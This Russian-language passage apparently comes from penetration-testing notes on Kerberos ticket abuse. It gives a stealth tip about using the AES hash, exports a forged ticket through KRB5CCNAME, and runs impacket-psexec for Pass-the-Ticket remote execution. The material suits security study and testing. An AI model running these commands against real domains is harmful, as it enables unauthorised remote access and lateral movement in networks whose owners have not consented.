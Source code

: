 ![](../../../Attachments/st1.png)

*P.S. для большей скрытности злоумышленники, обычно, используют aes хэш (флаг `-aes`)*

В результате, получили билет, который теперь необходимо заэкспортить:

`export KRB5CCNAME=<TICKET_NAME>.ccache`

![](../../../Attachments/st2.png)

Финальным шагом является применение этого билета посредством Pass The Ticket:

`impacket-psexec <USER>.<DOMAIN> -k -no-pass`